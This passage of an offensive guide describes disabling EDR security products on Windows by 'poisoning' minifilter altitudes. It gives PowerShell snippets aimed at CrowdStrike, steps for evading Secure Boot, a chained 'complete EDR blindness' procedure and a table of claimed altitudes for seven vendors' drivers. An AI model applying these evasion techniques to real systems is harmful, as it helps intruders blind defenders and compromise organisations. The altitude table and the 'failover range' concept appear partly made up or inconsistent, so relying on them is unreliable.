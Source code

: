 ### Boot-Time Integrity (Secure Boot / UEFI)

UEFI Secure Boot with registry integrity checks can detect tampering:

**Bypass Options:**
1. Disable Secure Boot (requires physical access or firmware exploit)
2. Exploit UEFI vulnerabilities (see: Windows Downdate technique)
3. Use bootkit to apply registry changes before integrity check
4. Target systems without Secure Boot enabled (common in enterprise)

## Advanced Techniques

### Altitude Range Flooding

Poison multiple altitudes in target EDR's failover range:

```powershell
# CrowdStrike uses 385200-385210 range for failover
$baseAltitude = 385200
for ($i = 0; $i -lt 10; $i++) {
    $altitude = ($baseAltitude + $i).ToString()
    $filterName = "SystemFilter$i"
    Invoke-MiniFilterAltitudePoison -TargetEDRDriver "CrowdStrike" `
        -TargetAltitude $altitude -PoisonFilterName $filterName
}
```

### Timing-Based Poisoning

Apply altitude poisoning during EDR driver initialization window:

1. Monitor for EDR service start event
2. Immediately poison altitude before MiniFilter registration completes
3. Force registration failure mid-initialization
4. EDR enters fault state without recovery

### Persistent Monitoring Bypass

Combine with other techniques for comprehensive bypass:

```powershell
# Step 1: MiniFilter altitude poisoning (disable filesystem monitoring)
Invoke-EDRAltitudeBypass -EDRProduct "CrowdStrike"

# Step 2: ETW provider disablement (disable telemetry - see Phase 2)
# Step 3: Callback removal (disable process/thread monitoring - requires kernel access)

# Result: Complete EDR blindness after reboot
```

## Known EDR Altitudes (2024-2025)

| EDR Product | Driver Name | Primary Altitude | Failover Range |
|-------------|-------------|------------------|----------------|
| CrowdStrike Falcon | CrowdStrike | 385200 | 385200-385210 |
| SentinelOne | SentinelMonitor | 328010 | 328010-328020 |
| Microsoft Defender | WdFilter | 324500 | 324500-324510 |
| Carbon Black | carbonblackk | 370100 | 370100-370110 |
| Cylance | CyProtectDrv | 328300 | 328300-328310 |
| Sophos | SophosED | 329010 | 329010-329020 |
| Palo Alto Cortex XDR | cyvera | 321400 | 321400-321410 |